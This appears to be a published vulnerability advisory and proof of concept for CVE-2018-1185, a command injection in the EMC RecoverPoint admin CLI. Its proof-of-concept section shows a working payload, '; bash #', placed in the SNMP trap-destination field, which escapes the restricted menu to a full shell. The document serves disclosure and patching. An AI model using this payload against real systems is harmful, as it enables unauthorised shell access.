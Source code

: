 ## EMC RecoverPoint Admin CLI Command Injection test_snmp

Version: RecoverPoint prior to 5.1.1 RecoverPoint for VMs prior to 5.0.1.3

Date: 2018-05-11

Vendor Advisory: http://seclists.org/fulldisclosure/2018/Feb/9

Exploit Author: Paul Taylor (@bao7uo) / Foregenix Ltd

Github: https://github.com/bao7uo

Tested on: RecoverPoint for VMs 4.3, RecoverPoint 4.4.SP1.P1

CVE: CVE-2018-1185

# 1. Description

An OS command injection vulnerability resulting in code execution as the built-in admin user. 

A crafted entry can result in the ability to escape from the restricted admin user's menu driven CLI to a full Linux operating system shell in the context of the admin user. The attack vector is the trap destination (hostname/IP) parameter of the test_snmp function.
 
# 2. Proof of Concept

```
RecoverPoint> test_snmp
Enter the trap destination (host name or IP)
 > /dev/null 2>&1 ; bash #
admin@RecoverPoint:/home/kos/cli$ exit
exit
Test completed successfully.
RecoverPoint> 
```

# 3. Solution:
    
Update to latest version of RecoverPoint
